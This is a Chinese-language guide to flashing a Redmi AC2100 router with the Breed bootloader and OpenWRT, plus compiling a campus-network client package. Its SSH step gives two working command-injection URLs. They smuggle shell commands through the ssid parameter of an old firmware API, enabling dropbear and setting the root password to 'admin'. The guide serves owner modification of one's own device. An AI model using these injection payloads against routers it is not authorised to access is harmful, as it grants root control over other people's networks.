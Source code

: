 # Xiaomi Redmi AC2100 刷机指北

如果没有特殊需求，请不要随便刷机，刷机有风险！！刷机有风险！！刷机有风险！！

刷机原因：

1. 校园网客户端
2. 限制广告
3. airport...

网络上有大量教程但感觉有些过时，有些还有大坑，为避免大家重蹈覆辙，我记录下整个刷机过程供大家参考:）

## 刷入Breed

Breed是一个第三方的启动引导工具，刷入此工具后我们能够通过它再刷入不同的固件比如openwrt，padavan等。

刷入步骤：

1. 下载固件
2. 降级当前路由器固件（可选）
3. 利用漏洞获取ssh
4. 刷入breed
5. reset重启进入breed恢复后台

### 1. 下载对应固件

[点击下载 ac2100 breed](https://breed.hackpascal.net/breed-mt7621-xiaomi-r3g.bin)

### 2. 降级路由器当前固件

为了将breed固件写入路由器，我们需要上传固件并且烧写，这需要登录进路由器，低版本的固件存在一些漏洞（2.0.7）。

在路由器管理页面手动降级到对应[版本固件 点击下载](./assets/2.0.7/miwifi_rm2100_firmware_d6234_2.0.7.bin)后，等待重启。

### 3. 开启ssh

降级完成后再次登录管理界面，登录的url大致是这样的：

```url
// ip可能会不一样，<stok>是一长串字符每次登录后都不一样
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/web/home#router
```

使用下述代码进行注入，将`<stok>`替换为浏览器地址栏显示的值后再输入进地址栏

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```

执行完成后会出现`{"code":0}`

退出再刷新浏览器重新进入管理界面，此时`<stok>`会发生变化，再通过下述代码修改root密码：

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

此时能够使用ssh登录进路由器，账号为：root 密码为：admin

### 4. 刷入breed

ssh登录路由器后，将第一步得到的固件上传到路由器`/tmp`目录后执行下述代码：

```shell
mtd -r write /tmp/breed-mt7621-xiaomi-r3g.bin Bootloader
```

### 5. 进入breed控制台

如果电脑重新获取到IP后说明刷写完成并且breed引导了官方固件，断电。按住reset键（背面圆孔，用取卡针插进去）后插电等待system的蓝灯闪烁后松开reset键。

用浏览器访问`192.168.1.1`进入breed恢复界面，更改环境变量，新增字段"xiaomi.r3g.bootfw", 值设置为 2,然后保存。

点击固件更新即可上传自己的固件。

## 刷入OpenWRT

准备OpenWRT的[固件 点击下载](https://downloads.openwrt.org/releases/21.02.2/targets/ramips/mt7621/openwrt-21.02.2-ramips-mt7621-xiaomi_redmi-router-ac2100-initramfs-kernel.bin)，也可以找其他的版本，通过breed上传该固件，点击更新并等待路由器重启，这里建议用有线连接电脑，测试时该固件烧入后不会开启WIFI。

![image-20220222185832288](assets/img/image-20220222185832288.png)

烧写完成后breed将会引导OpenWRT，如果要进入恢复控制台按照上述`进入breed控制台`操作即可。

## 刷入升级包

OpenWRT烧写完成后用浏览器访问`192.168.1.1`进入管理界面，默认无密码。

![image-20220222190608778](assets/img/image-20220222190608778.png)

点击导航栏的[`System`的`Backup/Flash Firmware 点击跳转`](http://192.168.1.1/cgi-bin/luci/admin/system/flash)点击最下方的Flash image刷入[升级包](https://downloads.openwrt.org/releases/21.02.2/targets/ramips/mt7621/openwrt-21.02.2-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-sysupgrade.bin)，等待重启。

在[Network中点击Wireless 点击跳转](http://192.168.1.1/cgi-bin/luci/admin/network/wireless)启用WIFI

![image-20220222191106039](assets/img/image-20220222191106039.png)

上述使用的是官方提供的固件，这个是网络上找到的[升级固件](./assets/sysupgrade/openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-sysupgrade.bin)，该固件提供了许多功能比如广告清理，ssr等，不想折腾可以直接使用这个升级固件。

## 安装插件

通过opkg工具在命令行中安装插件，有些插件存在依赖，在安装前建议执行：

```shell
opkg update
```

### scutclient

这是某学校的有线网连接[客户端](https://github.com/scutclient/scutclient):(，没有提供编译好的package得手动编译，如果不想编译可以[点击下载](./assets/ipk/scutclient_3.1.3-1_mipsel_24kc.ipk)，但是得架构和版本一致才能直接安装。

```txt
$ cat /etc/openwrt_release
DISTRIB_ID='OpenWrt'
DISTRIB_RELEASE='21.02.1'
DISTRIB_REVISION='r16325-88151b8303'
DISTRIB_TARGET='ramips/mt7621'
DISTRIB_ARCH='mipsel_24kc'
DISTRIB_DESCRIPTION='OpenWrt 21.02.1 r16325-88151b8303'
DISTRIB_TAINTS=''

```

如果不一样就手动编译:)

按照文档给的步骤得先准备SDK，OpenWRT的版本有很多得找到符合当前目标的SDK才行，[在这找到对应版本](https://downloads.openwrt.org/)。根据DISTRIB_RELEASE和DISTRIB_TARGET找到对应[SDK](https://downloads.openwrt.org/releases/21.02.1/targets/ramips/mt7621/)

![image-20220222194510688](assets/img/image-20220222194510688.png)

按照步骤进行编译：

```shell
wget https://downloads.openwrt.org/releases/21.02.1/targets/ramips/mt7621/openwrt-sdk-21.02.1-ramips-mt7621_gcc-8.4.0_musl.Linux-x86_64.tar.xz

tar -Jxvf openwrt-sdk-21.02.1-ramips-mt7621_gcc-8.4.0_musl.Linux-x86_64.tar.xz

cd openwrt-sdk-21.02.1-ramips-mt7621_gcc-8.4.0_musl.Linux-x86_64/
mkdir package/scutclient
cp {SCUTCLIENT_SRC_DIR}/openwrt/Makefile package/scutclient

make defconfig
make package/scutclient/compile V=s
```

生成的文件存放在`bin`目录下:

![image-20220222195007213](assets/img/image-20220222195007213.png)

上传到路由器使用`opkg install`安装即可。

![image-20220222195233311](assets/img/image-20220222195233311.png)

### OpenClash

### V2ray

## 参考

[恩山大佬提供的开启SSH方法](https://www.right.com.cn/forum/thread-4032490-1-1.html)


